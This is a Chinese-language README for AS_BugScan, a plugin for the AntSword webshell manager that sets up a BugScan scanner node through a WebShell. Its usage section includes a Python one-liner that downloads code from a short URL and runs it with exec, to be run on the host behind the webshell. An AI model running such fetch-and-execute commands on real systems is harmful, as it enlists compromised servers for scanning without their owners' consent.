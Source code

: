 # AS_BugScan

> AntSword 创建 BugScan 节点插件

通过 WebShell 创建BugScan节点。

## 安装

### 商店安装

进入 AntSword 插件中心，选择 AS_BugScan,点击安装

### 手动安装

1. 获取源代码

	```
	git clone https://github.com/Medicean/AS_BugScan.git
	```
	
	或者
	
	点击 [这里](https://github.com/Medicean/AS_BugScan/archive/master.zip) 下载源代码，并解压。

2. 拷贝源代码至插件目录

    将插件目录拷贝至 `antSword/antData/plugins/` 目录下即安装成功


## 使用

1. 在`虚拟终端`下检查 `Python2.7` 是否在环境变量中

 在终端下直接输入 `python -V` 如果有输出，你可以继续进行，如果提示找不到 `python`, 请先将 `python` 添加至环境变量中。

2. 访问 [BugScan](https://www.bugscan.net) 进入扫描器。点击添加任务，在`节点`子栏下获取你个人的创建节点链接。

 假如在页面显示的为:
 
 ```
    python -c "exec(__import__('urllib2').urlopen('http://t.cn/Rqu1SmB?xxxxxxx').read())" -m 5
 ```
 那么在本插件 URL 部分应该填写 `urlopen` 函数部分中的 URL:

 ```
    http://t.cn/Rqu1SmB?xxxxxxx
 ```

3. `最大任务数` 输入框中控制一个节点能接受的最大目标数，默认为 5

4. 点击开始即可尝试创建 BugScan 节点。创建成功后，在 BugScan 添加任务页面即可看到你的节点。

## 相关链接

* [AntSword 文档](http://doc.uyu.us)
* [BugScan](https://www.bugscan.net)
* [dhtmlx 文档](http://docs.dhtmlx.com/)
